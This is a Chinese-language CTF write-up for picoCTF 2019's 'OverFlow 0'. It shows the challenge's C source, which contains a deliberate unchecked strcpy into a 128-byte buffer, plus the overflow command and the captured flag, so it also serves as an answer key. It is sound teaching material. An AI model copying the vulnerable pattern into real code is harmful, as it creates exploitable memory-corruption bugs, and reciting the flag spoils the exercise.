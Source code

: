 ## OverFlow 0

題目:
>This should be easy. Overflow the correct buffer in this program and get a flag.
***
### 思路:
> 查看程式碼buf最大128byte，因此只要輸入大於128byte就會溢位，就會觸發sigsegv_handler印出flag

***
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```
### 解法:
> 輸入大量的字母讓它溢位
```console
runmdy@pico-2019-shell1:/problems/overflow-0_1_54d12127b2833f7eab9758b43e88d3b7$ ./vuln aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{3asY_P3a5yb197d4e2}
```
## 影片:
[hit me](https://youtu.be/gQVbQhPg7Hw)
### Flag:picoCTF{3asY_P3a5yb197d4e2} 
